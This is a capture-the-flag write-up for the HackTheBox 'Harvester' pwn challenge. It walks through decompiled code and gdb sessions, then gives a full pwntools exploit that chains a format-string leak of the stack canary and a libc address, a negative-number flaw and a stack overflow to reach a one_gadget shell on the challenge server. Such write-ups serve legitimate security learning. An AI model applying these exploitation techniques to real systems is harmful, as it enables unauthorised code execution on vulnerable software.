

# CTF HackTheBox 2021 Cyber Apocalypse 2021 - Harvester

Category: Pwn, Points: 325




Attached file [pwn_harvester.zip](pwn_harvester.zip)

# Harvester Solution

Let's check the binary using ```checksec```:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/harvester]
└──╼ $ checksec harvester
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

[Full RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/) (removes the ability to perform a "GOT overwrite" attack), [Canary](https://ctf101.org/binary-exploitation/stack-canaries/), [NX enabled](https://ctf101.org/binary-exploitation/no-execute/) and [PIE](https://en.wikipedia.org/wiki/Position-independent_code).

By running the binary we get the following:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/harvester]
└──╼ $ ./harvester
A wild Harvester appeared 🐦

Options:

[1] Fight 👊    [2] Inventory 🎒
[3] Stare 👀    [4] Run 🏃
>

```

By observe the code using [Ghidra](https://ghidra-sre.org/) we can see few intresing functions.

The first function is ```stare```:
```c
void stare(void)

{
  long in_FS_OFFSET;
  undefined local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("\x1b[1;36m");
  printstr("\nYou try to find its weakness, but it seems invincible..");
  printstr("\nLooking around, you see something inside a bush.");
  printf("\x1b[1;32m");
  printstr(&DAT_0010129a);
  pie = pie + 1;
  if (pie == 0x16) {
    printf("\x1b[1;32m");
    printstr("\nYou also notice that if the Harvester eats too many pies, it falls asleep.");
    printstr("\nDo you want to feed it?\n> ");
    read(0,local_38,0x40);
    printf("\x1b[1;31m");
    printstr("\nThis did not work as planned..\n");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

We can see that we can get buffer overflow on ```read(0,local_38,0x40);```, It's read 0x40 (64) bytes where the buffer size is 0x28 (40) - It's mean we have 24 bytes to overflow.

We can get this overflow only if ```pie === 0x16```, The function make ```pie = pie + 1;``` before.

The second function is ```inventory```:
```c
void inventory(void)

{
  long in_FS_OFFSET;
  int local_18;
  char local_13 [3];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_18 = 0;
  show_pies(pie);
  printstr("\nDo you want to drop some? (y/n)\n> ");
  read(0,local_13,2);
  if (local_13[0] == 'y') {
    printstr("\nHow many do you want to drop?\n> ");
    __isoc99_scanf(&DAT_00101202,&local_18);
    pie = pie - local_18;
    if ((int)pie < 1) {
      printstr(&DAT_00101205);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    show_pies(pie);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Here, we can see the following ```pie = pie - local_18;``` - It's mean If we insert negative value we can increment ```pie``` value.


The last function is ```fight```:  
```c
void fight(void)

{
  long in_FS_OFFSET;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  printf("\x1b[1;36m");
  printstr("\nChoose weapon:\n");
  printstr(&DAT_00101138);
  read(0,&local_38,5);
  printstr("\nYour choice is: ");
  printf((char *)&local_38);
  printf("\x1b[1;31m");
  printstr("\nYou are not strong enough to fight yet.\n");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

By the following line ```printf((char *)&local_38);``` we can get [Format String Vulnerability](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/).

So far we found:
1. Buffer overflow on ```stare``` function if pie equals to 0x16 (Actually to 0x15 because ```pie = pie + 1;``` on ```stare```).
2. ```inventory``` function that reads our input without checking for negative values.
3. ```fight``` with format string vulnerability.

So with those vulnerabilities our plan is:
1. Leak stack values stored on the stack by inputting format specifiers such as %p with ```fight``` - It's could help us to leak the Canary address, address from libc to calculate the offset.
2. Set ```pie=0x16``` with ```inventory``` function to get buffer overflow.
3. Send our payload using ```stare``` function.

Let's run the binary using ```gdb``` to leak values stored on the stack.

We need to create breakepoint right after the ```printf``` function:
```asm
gef➤  disassemble fight
Dump of assembler code for function fight:
   0x0000000000000b30 <+0>:	push   rbp
   0x0000000000000b31 <+1>:	mov    rbp,rsp
   0x0000000000000b34 <+4>:	sub    rsp,0x30
   0x0000000000000b38 <+8>:	mov    rax,QWORD PTR fs:0x28
   0x0000000000000b41 <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000000000000b45 <+21>:	xor    eax,eax
   0x0000000000000b47 <+23>:	mov    QWORD PTR [rbp-0x30],0x0
   0x0000000000000b4f <+31>:	mov    QWORD PTR [rbp-0x28],0x0
   0x0000000000000b57 <+39>:	mov    QWORD PTR [rbp-0x20],0x0
   0x0000000000000b5f <+47>:	mov    QWORD PTR [rbp-0x18],0x0
   0x0000000000000b67 <+55>:	lea    rdi,[rip+0x5ac]        # 0x111a
   0x0000000000000b6e <+62>:	mov    eax,0x0
   0x0000000000000b73 <+67>:	call   0x840 <printf@plt>
   0x0000000000000b78 <+72>:	lea    rdi,[rip+0x5a3]        # 0x1122
   0x0000000000000b7f <+79>:	call   0x9da <printstr>
   0x0000000000000b84 <+84>:	lea    rdi,[rip+0x5ad]        # 0x1138
   0x0000000000000b8b <+91>:	call   0x9da <printstr>
   0x0000000000000b90 <+96>:	lea    rax,[rbp-0x30]
   0x0000000000000b94 <+100>:	mov    edx,0x5
   0x0000000000000b99 <+105>:	mov    rsi,rax
   0x0000000000000b9c <+108>:	mov    edi,0x0
   0x0000000000000ba1 <+113>:	call   0x860 <read@plt>
   0x0000000000000ba6 <+118>:	lea    rdi,[rip+0x5b5]        # 0x1162
   0x0000000000000bad <+125>:	call   0x9da <printstr>
   0x0000000000000bb2 <+130>:	lea    rax,[rbp-0x30]
   0x0000000000000bb6 <+134>:	mov    rdi,rax
   0x0000000000000bb9 <+137>:	mov    eax,0x0
   0x0000000000000bbe <+142>:	call   0x840 <printf@plt>
   0x0000000000000bc3 <+147>:	lea    rdi,[rip+0x4be]        # 0x1088
   0x0000000000000bca <+154>:	mov    eax,0x0
   0x0000000000000bcf <+159>:	call   0x840 <printf@plt>
   0x0000000000000bd4 <+164>:	lea    rdi,[rip+0x59d]        # 0x1178
   0x0000000000000bdb <+171>:	call   0x9da <printstr>
   0x0000000000000be0 <+176>:	nop
   0x0000000000000be1 <+177>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000000be5 <+181>:	xor    rax,QWORD PTR fs:0x28
   0x0000000000000bee <+190>:	je     0xbf5 <fight+197>
   0x0000000000000bf0 <+192>:	call   0x830 <__stack_chk_fail@plt>
   0x0000000000000bf5 <+197>:	leave  
   0x0000000000000bf6 <+198>:	ret    
End of assembler dump.
gef➤  b *fight+147
Breakpoint 1 at 0xbc3
```

By running the binary and enumerate on stack I found that ```%11$p``` is the stack canary and ```%21$p``` is libc_start function address:
```asm
gef➤  r
Starting program: /ctf_htb/cyber_apocalypse/pwn/harvesterharvester 

A wild Harvester appeared 🐦

Options:

[1] Fight 👊	[2] Inventory 🎒
[3] Stare 👀	[4] Run 🏃
> 1

Choose weapon:

[1] 🗡		[2] 💣
[3] 🏹		[4] 🔫
> %11$p

Your choice is: 0x8b1e5366c4c23000
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x12              
$rbx   : 0x0               
$rcx   : 0x0               
$rdx   : 0x00007ffff7dcf8c0  →  0x0000000000000000
$rsp   : 0x00007fffffffdec0  →  0x0000007024313125 ("%11$p"?)
$rbp   : 0x00007fffffffdef0  →  0x00007fffffffdf10  →  0x00007fffffffdf30  →  0x0000555555555000  →  <__libc_csu_init+0> push r15
$rsi   : 0x00007fffffffb820  →  "0x8b1e5366c4c230001;31m"
$rdi   : 0x1               
$rip   : 0x0000555555554bc3  →  <fight+147> lea rdi, [rip+0x4be]        # 0x555555555088
$r8    : 0x12              
$r9    : 0x00007fffffffb698  →  0x00007ffff7a6dbff  →  <_IO_file_xsputn+511> mov r12, rax
$r10   : 0x0               
$r11   : 0x246             
$r12   : 0x00005555555548d0  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffe010  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdec0│+0x0000: 0x0000007024313125 ("%11$p"?)	 ← $rsp
0x00007fffffffdec8│+0x0008: 0x0000000000000000
0x00007fffffffded0│+0x0010: 0x0000000000000000
0x00007fffffffded8│+0x0018: 0x0000000000000000
0x00007fffffffdee0│+0x0020: 0x00007fffffffdf10  →  0x00007fffffffdf30  →  0x0000555555555000  →  <__libc_csu_init+0> push r15
0x00007fffffffdee8│+0x0028: 0x8b1e5366c4c23000
0x00007fffffffdef0│+0x0030: 0x00007fffffffdf10  →  0x00007fffffffdf30  →  0x0000555555555000  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffdef8│+0x0038: 0x0000555555554eca  →  <harvest+119> jmp 0x555555554f17 <harvest+196>
───────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555554bc3 → fight()
[#1] 0x555555554eca → harvest()
[#2] 0x555555554fd8 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x0000555555554bc3 in fight ()
gef➤  
gef➤  canary
[+] Found AT_RANDOM at 0x7fffffffe329, reading 8 bytes
[+] The canary of process 21347 is 0x8b1e5366c4c23000
gef➤  
```

So we can see ```Your choice is: 0x8b1e5366c4c23000``` which is the stack canary.

Next, Let's leak address from libc:
```asm
gef➤  r
Starting program: /ctf_htb/cyber_apocalypse/pwn/harvester/harvester 

A wild Harvester appeared 🐦

Options:

[1] Fight 👊	[2] Inventory 🎒
[3] Stare 👀	[4] Run 🏃
> 1

Choose weapon:

[1] 🗡		[2] 💣
[3] 🏹		[4] 🔫
> %21$p
Your choice is: 0x7ffff7a03bf7
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xe               
$rbx   : 0x0               
$rcx   : 0x0               
$rdx   : 0x00007ffff7dcf8c0  →  0x0000000000000000
$rsp   : 0x00007fffffffdec0  →  0x0000007024313225 ("%21$p"?)
$rbp   : 0x00007fffffffdef0  →  0x00007fffffffdf10  →  0x00007fffffffdf30  →  0x0000555555555000  →  <__libc_csu_init+0> push r15
$rsi   : 0x00007fffffffb820  →  "0x7ffff7a03bf7"
$rdi   : 0x1               
$rip   : 0x0000555555554bc3  →  <fight+147> lea rdi, [rip+0x4be]        # 0x555555555088
$r8    : 0xe               
$r9    : 0x00007fffffffb69c  →  0x0000000e00007fff
$r10   : 0x0               
$r11   : 0x246             
$r12   : 0x00005555555548d0  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffe010  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdec0│+0x0000: 0x0000007024313225 ("%21$p"?)	 ← $rsp
0x00007fffffffdec8│+0x0008: 0x0000000000000000
0x00007fffffffded0│+0x0010: 0x0000000000000000
0x00007fffffffded8│+0x0018: 0x0000000000000000
0x00007fffffffdee0│+0x0020: 0x00007fffffffdf10  →  0x00007fffffffdf30  →  0x0000555555555000  →  <__libc_csu_init+0> push r15
0x00007fffffffdee8│+0x0028: 0xd5904bdb22b0ab00
0x00007fffffffdef0│+0x0030: 0x00007fffffffdf10  →  0x00007fffffffdf30  →  0x0000555555555000  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffdef8│+0x0038: 0x0000555555554eca  →  <harvest+119> jmp 0x555555554f17 <harvest+196>
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555554bc3 → fight()
[#1] 0x555555554eca → harvest()
[#2] 0x555555554fd8 → main()
gef➤ 
```

And by running ```telescope``` command we can see:
```asm
gef➤  telescope 16
0x00007fffffffdec0│+0x0000: 0x0000007024313225 ("%21$p"?)	 ← $rsp
0x00007fffffffdec8│+0x0008: 0x0000000000000000
0x00007fffffffded0│+0x0010: 0x0000000000000000
0x00007fffffffded8│+0x0018: 0x0000000000000000
0x00007fffffffdee0│+0x0020: 0x00007fffffffdf10  →  0x00007fffffffdf30  →  0x0000555555555000  →  <__libc_csu_init+0> push r15
0x00007fffffffdee8│+0x0028: 0xd5904bdb22b0ab00
0x00007fffffffdef0│+0x0030: 0x00007fffffffdf10  →  0x00007fffffffdf30  →  0x0000555555555000  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffdef8│+0x0038: 0x0000555555554eca  →  <harvest+119> jmp 0x555555554f17 <harvest+196>
0x00007fffffffdf00│+0x0040: 0x0000000100000020
0x00007fffffffdf08│+0x0048: 0xd5904bdb22b0ab00
0x00007fffffffdf10│+0x0050: 0x00007fffffffdf30  →  0x0000555555555000  →  <__libc_csu_init+0> push r15
0x00007fffffffdf18│+0x0058: 0x0000555555554fd8  →  <main+72> mov eax, 0x0
0x00007fffffffdf20│+0x0060: 0x00007fffffffe010  →  0x0000000000000001
0x00007fffffffdf28│+0x0068: 0xd5904bdb22b0ab00
0x00007fffffffdf30│+0x0070: 0x0000555555555000  →  <__libc_csu_init+0> push r15
0x00007fffffffdf38│+0x0078: 0x00007ffff7a03bf7  →  <__libc_start_main+231> mov edi, eax
```

From ```%21$p``` we get ```Your choice is: 0x7ffff7a03bf7``` which is ```0x00007ffff7a03bf7  →  <__libc_start_main+231> mov edi, eax```.

Great, so fat we have leak of Canary and ```<__libc_start_main+231>```.

Now, Let's set a breakpoint on ```stare``` to get the offset between ```rip``` and buffer overflow address.

Breakpoint located right after ```read```
```asm
gef➤  disassemble stare
Dump of assembler code for function stare:
   0x0000555555554d2b <+0>:	push   rbp
   0x0000555555554d2c <+1>:	mov    rbp,rsp
   0x0000555555554d2f <+4>:	sub    rsp,0x30
   0x0000555555554d33 <+8>:	mov    rax,QWORD PTR fs:0x28
   0x0000555555554d3c <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x0000555555554d40 <+21>:	xor    eax,eax
   0x0000555555554d42 <+23>:	lea    rdi,[rip+0x3d1]        # 0x55555555511a
   0x0000555555554d49 <+30>:	mov    eax,0x0
   0x0000555555554d4e <+35>:	call   0x555555554840 <printf@plt>
   0x0000555555554d53 <+40>:	lea    rdi,[rip+0x4ce]        # 0x555555555228
   0x0000555555554d5a <+47>:	call   0x5555555549da <printstr>
   0x0000555555554d5f <+52>:	lea    rdi,[rip+0x502]        # 0x555555555268
   0x0000555555554d66 <+59>:	call   0x5555555549da <printstr>
   0x0000555555554d6b <+64>:	lea    rdi,[rip+0x34f]        # 0x5555555550c1
   0x0000555555554d72 <+71>:	mov    eax,0x0
   0x0000555555554d77 <+76>:	call   0x555555554840 <printf@plt>
   0x0000555555554d7c <+81>:	lea    rdi,[rip+0x517]        # 0x55555555529a
   0x0000555555554d83 <+88>:	call   0x5555555549da <printstr>
   0x0000555555554d88 <+93>:	mov    eax,DWORD PTR [rip+0x201282]        # 0x555555756010 <pie>
   0x0000555555554d8e <+99>:	add    eax,0x1
   0x0000555555554d91 <+102>:	mov    DWORD PTR [rip+0x201279],eax        # 0x555555756010 <pie>
   0x0000555555554d97 <+108>:	mov    eax,DWORD PTR [rip+0x201273]        # 0x555555756010 <pie>
   0x0000555555554d9d <+114>:	cmp    eax,0x16
   0x0000555555554da0 <+117>:	jne    0x555555554dfe <stare+211>
   0x0000555555554da2 <+119>:	lea    rdi,[rip+0x318]        # 0x5555555550c1
   0x0000555555554da9 <+126>:	mov    eax,0x0
   0x0000555555554dae <+131>:	call   0x555555554840 <printf@plt>
   0x0000555555554db3 <+136>:	lea    rdi,[rip+0x4fe]        # 0x5555555552b8
   0x0000555555554dba <+143>:	call   0x5555555549da <printstr>
   0x0000555555554dbf <+148>:	lea    rdi,[rip+0x53e]        # 0x555555555304
   0x0000555555554dc6 <+155>:	call   0x5555555549da <printstr>
   0x0000555555554dcb <+160>:	lea    rax,[rbp-0x30]
   0x0000555555554dcf <+164>:	mov    edx,0x40
   0x0000555555554dd4 <+169>:	mov    rsi,rax
   0x0000555555554dd7 <+172>:	mov    edi,0x0
   0x0000555555554ddc <+177>:	call   0x555555554860 <read@plt>
   0x0000555555554de1 <+182>:	lea    rdi,[rip+0x2a0]        # 0x555555555088
   0x0000555555554de8 <+189>:	mov    eax,0x0
   0x0000555555554ded <+194>:	call   0x555555554840 <printf@plt>
   0x0000555555554df2 <+199>:	lea    rdi,[rip+0x527]        # 0x555555555320
   0x0000555555554df9 <+206>:	call   0x5555555549da <printstr>
   0x0000555555554dfe <+211>:	nop
   0x0000555555554dff <+212>:	mov    rax,QWORD PTR [rbp-0x8]
   0x0000555555554e03 <+216>:	xor    rax,QWORD PTR fs:0x28
   0x0000555555554e0c <+225>:	je     0x555555554e13 <stare+232>
   0x0000555555554e0e <+227>:	call   0x555555554830 <__stack_chk_fail@plt>
   0x0000555555554e13 <+232>:	leave  
   0x0000555555554e14 <+233>:	ret    
End of assembler dump.
gef➤  b *stare+182
Breakpoint 2 at 0x555555554de1
```

Run it (first set pie to 0x16 from ```Inventory``` function):
```asm
gef➤  r
Starting program: /ctf_htb/cyber_apocalypse/pwn/harvester/harvester 

A wild Harvester appeared 🐦

Options:

[1] Fight 👊	[2] Inventory 🎒
[3] Stare 👀	[4] Run 🏃
> 2

You have: 10 🥧

Do you want to drop some? (y/n)
> y

How many do you want to drop?
> -11

You have: 21 🥧

Options:

[1] Fight 👊	[2] Inventory 🎒
[3] Stare 👀	[4] Run 🏃
> 
```

Now ```pie``` equals to 21 (0x15), Let's run ```stare``` function to insert the buffer then we can calculate the offset between the buffer to ```rip```:
```asm
Options:

[1] Fight 👊	[2] Inventory 🎒
[3] Stare 👀	[4] Run 🏃
> 3

You try to find its weakness, but it seems invincible..
Looking around, you see something inside a bush.
[+] You found 1 🥧!

You also notice that if the Harvester eats too many pies, it falls asleep.
Do you want to feed it?
> AAAAAAAA

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x9               
$rbx   : 0x0               
$rcx   : 0x00007ffff7af2151  →  0x5777fffff0003d48 ("H="?)
$rdx   : 0x40              
$rsp   : 0x00007fffffffdec0  →  0x4141414141414141 ("AAAAAAAA"?)
$rbp   : 0x00007fffffffdef0  →  0x00007fffffffdf10  →  0x00007fffffffdf30  →  0x0000555555555000  →  <__libc_csu_init+0> push r15
$rsi   : 0x00007fffffffdec0  →  0x4141414141414141 ("AAAAAAAA"?)
$rdi   : 0x0               
$rip   : 0x0000555555554de1  →  <stare+182> lea rdi, [rip+0x2a0]        # 0x555555555088
$r8    : 0x20              
$r9    : 0x00007ffff7fdf500  →  0x00007ffff7fdf500  →  [loop detected]
$r10   : 0x00007ffff7b80c40  →  0x0002000200020002
$r11   : 0x246             
$r12   : 0x00005555555548d0  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffe010  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdec0│+0x0000: 0x4141414141414141	 ← $rsp, $rsi
0x00007fffffffdec8│+0x0008: 0x48698d93d184e40a
0x00007fffffffded0│+0x0010: 0x00007fffffffdef0  →  0x00007fffffffdf10  →  0x00007fffffffdf30  →  0x0000555555555000  →  <__libc_csu_init+0> push r15
0x00007fffffffded8│+0x0018: 0x0000555555554b19  →  <menu+64> nop 
0x00007fffffffdee0│+0x0020: 0x000a79fffffffff5
0x00007fffffffdee8│+0x0028: 0x48698d93d184e400
0x00007fffffffdef0│+0x0030: 0x00007fffffffdf10  →  0x00007fffffffdf30  →  0x0000555555555000  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffdef8│+0x0038: 0x0000555555554ee2  →  <harvest+143> jmp 0x555555554f17 <harvest+196>
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555554dd4 <stare+169>      mov    rsi, rax
   0x555555554dd7 <stare+172>      mov    edi, 0x0
   0x555555554ddc <stare+177>      call   0x555555554860 <read@plt>
 → 0x555555554de1 <stare+182>      lea    rdi, [rip+0x2a0]        # 0x555555555088
   0x555555554de8 <stare+189>      mov    eax, 0x0
   0x555555554ded <stare+194>      call   0x555555554840 <printf@plt>
   0x555555554df2 <stare+199>      lea    rdi, [rip+0x527]        # 0x555555555320
   0x555555554df9 <stare+206>      call   0x5555555549da <printstr>
   0x555555554dfe <stare+211>      nop    
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555554de1 → stare()
[#1] 0x555555554ee2 → harvest()
[#2] 0x555555554fd8 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 2, 0x0000555555554de1 in stare ()
gef➤  search-pattern AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdec0 - 0x7fffffffdec8  →   "AAAAAAAA[...]" 
gef➤  i f
Stack level 0, frame at 0x7fffffffdf00:
 rip = 0x555555554de1 in stare; saved rip = 0x555555554ee2
 called by frame at 0x7fffffffdf20
 Arglist at 0x7fffffffdef0, args: 
 Locals at 0x7fffffffdef0, Previous frame's sp is 0x7fffffffdf00
 Saved registers:
  rbp at 0x7fffffffdef0, rip at 0x7fffffffdef8
gef➤ 
```

So our buffer located on ```0x7fffffffdec0``` and rip on ```0x7fffffffdef8``` so The offset is```0x7fffffffdef8-0x7fffffffdec0=0x38``` - 0x38 (56) bytes, It's mean with ```read(0,local_38,0x40);``` funtion that reads 0x40 (64) bytes the stack will be:
```
|     buffer (40 bytes)    | Canary - 8 bytes |  8 bytes | rip(8 bytes) |
```

So we can only use the last 8 bytes (of rip) to get shell, We can get it using [one_gadge](https://github.com/david942j/one_gadget) on libc to get one gadget that give us shell:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/harvester]
└──╼ $ one_gadget libc.so.6
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

So we have:
1. Leak of Canary, libc start function.
2. One gadget - 0x4f3d5.

Let's write python code to get shell.

First, leak Canary and libc start function:
```python
binary = context.binary = ELF('./harvester')

if args.REMOTE:
        libc = ELF('./libc.so.6')
        p = remote('188.166.172.13',30231)
else:
	# When we running locally use this libc, in remote we will use the attached libc
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        p = process(binary.path)

def leak(stack_pos):
    print(p.recvuntil('>').decode('utf-8'))
    print("1")
    p.sendline("1")
    print(p.recvuntil('>').decode('utf-8'))
    print("%" + str(stack_pos) + "$p")
    p.sendline("%"+str(stack_pos)+"$p")
    print(p.recvuntil('is: ').decode('utf-8'))
    leak = int(p.recvuntil('\x1b[1;').strip(b'\x1b[1;').decode(),16)
    print(leak)
    return leak

canary = leak(11) # Leak canary value located on 11th on stack
log.info("Canary value: " + hex(canary))

libc_start_offset = 231
libc_start_main = leak(21) # Leak <__libc_start_main+231> address - we need to sub 231 later 
libc.address = libc_start_main - libc_start_offset
log.info("libc.address: " + hex(libc.address))
```

Calculate the ```one_gadget```:
```python
one_gadget = libc.address + 0x4f3d5 #0x4f3d5 # taked from one_gadget libc.so.6
```

Set ```pie``` to 0x15:
```python
print(p.recvuntil('>').decode('utf-8'))
print("2")
p.sendline("2")
print(p.recvuntil('>').decode('utf-8'))
print("y")
p.sendline("y")
print(p.recvuntil('>').decode('utf-8'))
print("-11")
p.sendline("-11")
```

Build and send the payload:
```python
payload = b"A"*(0x38-0x10) + p64(canary) + 'A'*8 + p64(one_gadget) 
print(p.recvuntil('>').decode('utf-8'))
print("3")
p.sendline("3")
print(p.recvuntil('>').decode('utf-8'))
p.sendline(payload)

p.interactive()
```

Let's just put everything together [exploit.py](exploit.py):
```console
from pwn import *

binary = context.binary = ELF('./harvester')

if args.REMOTE:
        libc = ELF('./libc.so.6')
        p = remote('188.166.172.13',30121)
else:
	# When we running locally use this libc, in remote we will use the attached libc
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        p = process(binary.path)


def leak(stack_pos):
    print(p.recvuntil('>').decode('utf-8'))
    print("1")
    p.sendline("1")
    print(p.recvuntil('>').decode('utf-8'))
    print("%" + str(stack_pos) + "$p")
    p.sendline("%"+str(stack_pos)+"$p")
    print(p.recvuntil('is: ').decode('utf-8'))
    leak = int(p.recvuntil('\x1b[1;').strip(b'\x1b[1;').decode(),16)
    print(leak)
    return leak

canary = leak(11) # Leak canary value located on 11th on stack
log.info("Canary value: " + hex(canary))

libc_start_offset = 231
libc_start_main = leak(21) # Leak <__libc_start_main+231> address - we need to sub 231 later 
libc.address = libc_start_main - libc_start_offset - libc.sym.__libc_start_main
log.info("libc.address: " + hex(libc.address))


one_gadget = libc.address + 0x4f3d5 #0x4f3d5 # taked from one_gadget libc.so.6

payload = b"A"*(0x38-0x10) + p64(canary) + 'A'*8 + p64(one_gadget) 

#Set pie to 21
print(p.recvuntil('>').decode('utf-8'))
print("2")
p.sendline("2")
print(p.recvuntil('>').decode('utf-8'))
print("y")
p.sendline("y")
print(p.recvuntil('>').decode('utf-8'))
print("-11")
p.sendline("-11")

print(p.recvuntil('>').decode('utf-8'))
print("3")
p.sendline("3")
print(p.recvuntil('>').decode('utf-8'))
p.sendline(payload)

p.interactive()
```

Run it with REMOTE=1:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/harvester]
└──╼ $ python exploit.py
[*] '/ctf_htb/cyber_apocalypse/pwn/harvester/harvester'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf_htb/cyber_apocalypse/pwn/harvester/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[-] Opening connection to 188.166.172.13 on port 30121

A wild Harvester appeared 🐦

Options:

[1] Fight 👊    [2] Inventory 🎒
[3] Stare 👀    [4] Run 🏃
>
1
 
Choose weapon:

[1] 🗡        [2] 💣
[3] 🏹        [4] 🔫
>
%11$p
 
Your choice is: 
17937084176963808512
[*] Canary value: 0xf8ed530632352d00
31m
You are not strong enough to fight yet.

Options:

[1] Fight 👊    [2] Inventory 🎒
[3] Stare 👀    [4] Run 🏃
>
1
 
Choose weapon:

[1] 🗡        [2] 💣
[3] 🏹        [4] 🔫
>
%21$p
 
Your choice is: 
140274410384375
[*] libc.address: 0x7f942e64d000
31m
You are not strong enough to fight yet.

Options:

[1] Fight 👊    [2] Inventory 🎒
[3] Stare 👀    [4] Run 🏃
>
2
 
You have: 10 🥧

Do you want to drop some? (y/n)
>
y
 
How many do you want to drop?
>
-11
 
You have: 21 🥧

Options:

[1] Fight 👊    [2] Inventory 🎒
[3] Stare 👀    [4] Run 🏃
>
3
 
You try to find its weakness, but it seems invincible..
Looking around, you see something inside a bush.
[+] You found 1 🥧!

You also notice that if the Harvester eats too many pies, it falls asleep.
Do you want to feed it?
>
[*] Switching to interactive mode
 
